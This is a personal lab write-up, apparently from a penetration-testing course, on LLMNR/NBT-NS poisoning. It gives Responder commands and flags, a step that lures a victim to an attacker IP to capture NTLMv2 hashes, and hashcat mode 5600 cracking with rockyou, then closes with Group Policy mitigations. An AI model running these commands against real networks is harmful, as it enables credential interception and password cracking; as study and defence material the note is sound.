




-> A general idea of how LLMNR is leveraged for an attack:  

## Basic Steps:
Step 1. Run Responder - `sudo responder -I tun0 -dwP`
	1. responder responds to traffic
	2. A good time to run is - early in moring or after lunch, basically after a break when people are logging in into their computers and are GENERATING A LOT OF TRAFFIC
	3. Do not run vuln scans (eg nessus) at the same time
Step 2. An event occurs...
   
Step 3. Get Hashes on responder (NTLMv2 mostly)
Step 4. Crack the hash using something like hashcat 

## How I went about it

1.  `sudo responder -I tun0 -dwPv`
	- This would have run just fine earlier, a recent responder update does not let you run wpad proxy (`-w`) along with a forced proxy authentication (`-P`)
	- Hence removing -P here would be better choice -> `sudo responder -I eth0 -dwv`
	- This allows the victim to download the wpad.dat file anonymously. The wpad.dat file then tells the victim's browser: "Use the attacker's machine as a proxy for everything else." Then, when the browser sends actual traffic (like browsing to Google), Responder can challenge for authentication.  
	    

- `-d`: Enable DHCP injection (Fails due to broadcast limits).
- `-w`: Enable WPAD proxying.
- `-P`: Force Proxy Authentication (Cleartext credentials).
- `-v`: Verbose mode. Once a hash is captured, if this is not specified responder won't capture it again.

2. To simulate an event: I logged into the punisher event as fcastle and in the file manager address bar i typed `\\192.168.138.254` (attacker IP) and the responder caught NTLMv2 hashes!  

3. Then I just cracked these hashes on my local machine (not attacker) for faster speeds. 
	- `hashcat --help | grep NTLM` --> to find the module for NetNTLMv2 hash --> output: `5600` (or google it)
	- `hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt` --> 
	- Some Important hashcat flag:
		- `-show` -> show cracked hashes from potfile (if any)
		- `-force` -> if trying on VM and it doesn't work
		- `-O` -> Optimize (on metal), improves speed
	- Better wordlists: rockyou2021
	- To future me, maybe take a look into rule sets like : OneRule (idk)

## Mitigation

- Best defense - disable LLMNR and NBT-NS (older LLMNR). To disable... 
	1. LLMNR: select "Turn OFF Multicast Name Resolution" under Local Computer Policy > Computer Configuration > Administrative Templates > Network  > DNS Client in the Group Policy Editor.
	2. NBT-NS: navigate to Network Connections > Network Adapter Properties > TCP/IPv4 Properties > Advanced tab > WINS tab and select "Disable NetBIOS over TCP/IP".
- If LLMNR/NBT-NS is required and/or cannot be disabled
	1. Require Network Access Control.
	2. Require strong user passwords (e.g., >14 characters and limit common word usage). The more complex and long the password, the harder it is for an attacker to crack the hash.
